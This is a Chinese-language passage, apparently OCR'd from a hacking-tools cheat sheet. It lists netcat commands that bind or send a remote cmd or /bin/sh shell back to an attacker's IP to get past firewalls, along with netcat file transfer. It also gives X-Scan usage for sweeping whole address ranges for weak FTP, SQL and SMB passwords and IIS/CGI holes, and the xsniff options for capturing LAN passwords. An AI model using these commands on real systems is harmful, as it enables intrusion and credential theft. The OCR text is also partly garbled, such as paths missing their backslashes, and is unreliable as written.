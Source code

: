 - nc -t -e c:winntsystem32cmd.exe192.168.0.2 5354 梆定 remote 主机的 cmdshell 并反向连接 192.168.0.2 的 5354 端口
  高级用法：
- nc -L -p 80 作为蜜罐用 1：开启并不停地监听 80 端口，直到 CTR+C 为止
- nc -L -p 80 > c:log.txt 作为蜜罐用 2：开启并不停地监听 80 端口，直到 CTR+C,同时把结果输出到 c:log.txt
- nc -L -p 80 < c:honeyport.txt 作为蜜罐用 3-1：开启并不停地监听 80 端口，直到 CTR+C,并把 c:honeyport.txt 中内容送入管道中，亦可起到传送文件作用
- type.exe c:honeyport | nc -L -p 80 作为蜜罐用 3-2：开启并不停地监听 80 端口，直到 CTR+C,并把 c:honeyport.txt 中内容送入管道中,亦可起到传送文件作用
  本机上用：nc -l -p 本机端口
  在对方主机上用：nc -e cmd.exe 本机 IP -p 本机端口 \*win2K
- nc -e /bin/sh 本机 IP -p 本机端口 \*linux,unix 反向连接突破对方主机的防火墙
  本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
  在对方主机上用：nc -vv 本机 IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
  备 注：
  | 管道命令
  < 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把 test.txt 的内容赋值给 tlntadmn 命令
  @ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行 dir，并把结果存在 d:log.txt 中
  \>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。
  如：@dir c:winnt >> d:log.txt 和@dir c:winnt > d:log.txt 二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
  八：
  扫描工具：xscan.exe
  基本格式
- xscan -host <起始 IP>[-<终止 IP>] <检测项目> [其他选项] 扫锚"起始 IP 到终止 IP"段的所有主机信息
- xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机 IP 列表文件名"中的所有主机信息
  检测项目
- -active 检测主机是否存活
- -os 检测远程操作系统类型（通过 NETBIOS 和 SNMP 协议）
- -port 检测常用服务的端口状态
- -ftp 检测 FTP 弱口令
- -pub 检测 FTP 服务匿名用户写权限
- -pop3 检测 POP3-Server 弱口令
- -smtp 检测 SMTP-Server 漏洞
- -sql 检测 SQL-Server 弱口令
- -smb 检测 NT-Server 弱口令
- -iis 检测 IIS 编码/解码漏洞
- -cgi 检测 CGI 漏洞
- -nasl 加载 Nessus 攻击脚本
- -all 检测以上所有项目
  其它选项
- -i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
- -l 显示所有网络适配器
- -v 显示详细扫描进度
- -p 跳过没有响应的主机
- -o 跳过没有检测到开放端口的主机
- -t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为 100,10
- -log 文件名 指定扫描报告文件名 (后缀为：TXT 或 HTML 格式的文件)
  用法示例
- xscan -host192.168.1.1-192.168.255.255 -all -active -p 　检测 192.168.1.1-192.168.255.255 网段内主机的所有漏洞，跳过无响应的主机
- xscan -host192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测 192.168.1.1-192.168.255.255 网段内主机的标准端口状态，NT 弱口令用户，最大并发线程数量为 150，跳过没有检测到开放端口的主机
- xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI 漏洞，最大并发线程数量为 200，同一时刻最多检测 5 台主机，显示详细检测进度，跳过没有检测到开放端口的主机
  九：
  命令行方式嗅探器: xsniff.exe
  可捕获局域网内 FTP/SMTP/POP3/HTTP 协议密码
  参数说明
- -tcp 输出 TCP 数据报
- -udp 输出 UDP 数据报
- -icmp 输出 ICMP 数据报
- -pass 过滤密码信息